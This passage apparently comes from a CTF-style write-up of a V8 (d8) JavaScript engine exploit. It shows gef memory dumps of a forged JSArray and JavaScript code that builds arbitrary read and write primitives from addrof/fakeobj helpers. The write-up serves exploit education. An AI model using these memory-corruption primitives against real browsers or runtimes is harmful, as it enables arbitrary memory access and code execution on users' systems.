 

    d8> arr2[1] = itof((2n<<32n) + 0x808694dn - 8n)
    4.3105762977e-314
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      in ../sysdeps/unix/sysv/linux/read.c
    gef➤  x/16xw 0x08750808692d-1-0x30
    0x875080868fc:  0x00000000      0xfffffffe      0x08040a3d      0x00000008
    0x8750808690c:  0x08241909      0x080406e9      0x08086945      0x00000002 <-- fake map, props, elements, len
    0x8750808691c:  0x9999999a      0x40019999      0x66666666      0x400a6666
    0x8750808692c:  0x08241909      0x080406e9      0x08086905      0x00000008



Now if I read `fake[0]`, it will return the double located at 0x808694d
(minus 1 for pointers):



    d8> ftoi(fake[0]).toString(16)
    "208040975"
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      in ../sysdeps/unix/sysv/linux/read.c
    gef➤  x/xg 0x8750808694c
    0x8750808694c:  0x0000000208040975



I'll add that as a clean function to my `exploit.js` file:



    var arr2 = [itof(float_array_map), 1.1, 2.2, 3.3];
    var fake = fakeobj(addrof(arr2)-0x20n);

    function arbread(addr) {
        if (addr % 2n == 0) {
            addr += 1;
        }
        arr2[1] = itof((2n << 32n) + addr - 8n);
        return (fake[0]);
    }



#### arbwrite

To do an arbitrary write, I'll do the same thing, setting the fake
object's elements array address and then setting the 0 element (as
opposed to reading it):



    function arbwrite(addr, val) {
        if (addr % 2n == 0) {
            addr += 1;
        }
        arr2[1] = itof((2n << 32n) + addr - 8n);
        fake[0] = itof(BigInt(val));
    }
